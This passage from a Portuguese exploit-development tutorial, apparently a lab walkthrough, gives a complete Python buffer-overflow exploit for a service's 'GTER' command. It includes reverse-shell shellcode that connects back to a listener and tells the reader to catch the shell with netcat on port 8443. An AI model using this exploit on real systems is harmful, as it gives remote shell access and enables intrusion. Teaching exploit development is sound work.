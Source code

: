 ## ATUALIZANDO E ORGANIZANDO NOSSO EXPLOIT

Com o shellcode em mãos, vamos atualizar nosso script.

xplgter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.26"
porta = 9999

# payload a ser enviado
offset = 147

shellcode = b"\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x40\x71\xe6\x76\xff\xd3\x96\x68\xc0\xa8\x01\x0c\x66\x68\x20\xfb\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x10\x53\x56\xbb\x10\x57\xe6\x76\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x31\xd2\x56\x56\x56\x52\x52\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53\x51\x53\xbb\x90\x2d\x2b\x75\xff\xd3"

payload = b"GTER /.:/" # funcao inicial
payload += shellcode
payload += b"A" * (offset - len(shellcode))
payload += b"\xd3\x11\x50\x62" # endereco de retorno
payload += b"\xe9\x64\xff\xff\xff" # salta para o primeiro buffer
payload += b"C" * (309 - 147 - 4 - 5) # segundo buffer

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado! Cheque o netcat.")
```

Script pronto, vamos setar um netcat na porta 8443 que configuramos no Assembly e testar nosso exploit.

![Enumaração do comando.](/std/winbof/winbof-42.png)
